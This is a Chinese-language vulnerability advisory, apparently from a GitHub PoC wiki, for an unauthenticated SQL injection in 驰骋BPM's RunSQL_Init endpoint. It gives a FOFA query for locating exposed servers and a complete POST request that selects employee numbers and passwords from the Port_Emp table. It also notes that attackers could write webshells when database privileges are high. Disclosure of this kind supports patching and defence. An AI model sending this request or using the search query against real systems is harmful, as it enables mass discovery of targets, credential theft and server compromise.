

# 驰骋BPM RunSQL_Init SQL注入漏洞

# 漏洞描述

驰骋BPM RunSQL_Init 存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

影响版本

驰骋BPM

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 高 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：icon_hash="-1564380241" || body="正在登录流程&表单引擎设计器,请稍候"

POC/EXP：

POST /WF/Comm/Handler.ashx?DoType=RunSQL_Init HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----123128312312389898yd98ays98d

------123128312312389898yd98ays98d
Content-Disposition: form-data; name="SQL"

SELECT No,Pass FROM Port_Emp
------123128312312389898yd98ays98d--

# 修复方案

1. 关闭互联网暴露面或接口设置访问权限

   升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
